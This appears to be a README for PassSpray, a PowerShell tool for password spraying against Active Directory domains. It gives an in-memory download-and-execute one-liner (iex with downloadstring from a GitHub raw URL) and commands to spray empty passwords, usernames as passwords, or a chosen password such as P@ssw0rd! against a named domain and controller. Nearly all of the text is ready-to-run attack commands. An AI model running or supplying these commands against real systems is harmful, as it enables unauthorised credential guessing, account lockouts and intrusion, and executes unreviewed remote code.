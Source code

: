 # PassSpray
Domain Password Spray

⚠️ Warning: Spraying passwords increases the Bad Pwd Count of the user you are trying to validate credentials for (for each wrong attempt)

### Load PassSpray in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PassSpray/main/PassSpray.ps1')
```

### Spray Empty password
```
Invoke-PassSpray
```

### Spray UserName as a password
```
Invoke-PassSpray -UserAsPassword
```

### Spray a password across the Domain
```
Invoke-PassSpray -Password P@ssw0rd!
```

### Spray a password across the Domain - Specify Domain and DC
```
Invoke-PassSpray -Password P@ssw0rd! -Domain ferrari.local -DomainController DC01.ferrari.local
```
